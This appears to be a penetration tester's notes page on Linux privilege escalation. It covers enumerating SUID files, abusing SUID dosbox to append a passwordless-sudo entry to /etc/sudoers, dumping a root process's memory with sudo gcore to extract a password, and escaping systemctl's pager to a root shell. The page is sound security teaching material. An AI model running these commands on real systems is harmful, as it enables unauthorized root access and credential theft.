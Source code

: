 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# Binary List

```bash
# Enumerate SUIDs
find / -type f -perm -u=s 2>/dev/null
```

## Dosbox

The presence of `dosbox` with the SUID bit set allows privilege escalation via **file write abuse**. According to [GTFOBins](https://gtfobins.github.io/gtfobins/dosbox/#suid), `dosbox` can be used to **modify arbitrary files when executed as** `root` through SUID.

```bash
# Add a user to the sudoers group
LFILE='/etc/sudoers'
dosbox -c 'mount c /' -c "echo x7331 ALL=(ALL) NOPASSWD: ALL >> c:$LFILE" -c exit
```

If **GUI-based access to the target** is available (e.g. via [VNC](../../../../../../services/tcp/remote-access/5900-vnc.md)) we can mount the filesystem:

<figure><img src="../../../../../../.gitbook/assets/nukem_vnc.png" alt=""><figcaption></figcaption></figure>

## Gcore

`gcore` is a CLI that creates a core dump of a running process without stopping it. This memory snapshot includes the process’s stack, heap, and loaded libraries, and is useful for **extracting sensitive data** or analyzing execution state during red team operations. It requires the PID of the target process and appropriate permissions. The output (`core.<PID>`) can be examined with tools like `gdb` or simply via `strings` making `gcore` valuable for stealthy, in-memory analysis during post-exploitation.

{% code overflow="wrap" %}
```bash
# Check user's permissions
$ sudo -l
User x7331 may run the following commands on kali:
    (ALL) NOPASSWD: /usr/bin/gcore
    
# List root processes
$ ps -u root -o pid,comm
490 password-store

# Dump the process
$ sudo gcore 490
​
# Inspect the file
$ strings core.490
001 Password: root:
R00tM3Plz!!!
```
{% endcode %}

## Systemctl

If the `systemctl` command ends up invoking a pager, e.g. `less`, then PE can be achieved:

{% code overflow="wrap" %}
```bash
$ sudo -l
User x7331 may run the following commands on kali:
    (root) NOPASSWD: /usr/bin/systemctl status random.service
​
$ sudo /usr/bin/systemctl status random.service
Aug 05 17:12:08 rnd.com systemd[1]: Starting Rnd Server...
Aug 05 17:12:08 rnd.com rnd-server.sh[792]: Spawning Rnd restarter in separate process
Aug 05 17:12:08 rnd.com rnd-server.sh[792]: Rnd restarter running with PID 852
Aug 05 17:12:08 rnd.com systemd[1]: Started Example Server.
!sh
# id
uid=0(root) gid=0(root) groups=0(root)
```
{% endcode %}
